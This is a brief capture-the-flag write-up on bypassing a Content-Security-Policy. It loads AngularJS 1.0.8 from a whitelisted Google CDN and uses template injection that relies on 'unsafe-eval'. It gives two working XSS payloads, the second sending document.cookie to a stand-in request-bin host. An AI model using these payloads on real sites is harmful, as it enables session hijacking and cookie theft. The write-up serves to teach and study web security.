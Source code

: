 # csp

On the second page, name and comment are vulnerable to XSS.

The CSP header is:

```http
Content-Security-Policy
    default-src https://www.google.com https://ajax.googleapis.com 'unsafe-eval'; style-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/; font-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/;object-src 'none'
```

We can download the angular.js file from `https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js` and then use the following payload to bypass the CSP:

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app ng-csp id=p ng-click={{constructor.constructor("alert(1)")()}}>
```

To get the flag, we can use the following payload:

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app ng-csp id=p ng-click={{constructor.constructor("window.location.href='https://some.request.bin.site?cookie='+document.cookie")()}}>
```

Note that this payload works because the unsafe-eval directive is present in the CSP header.
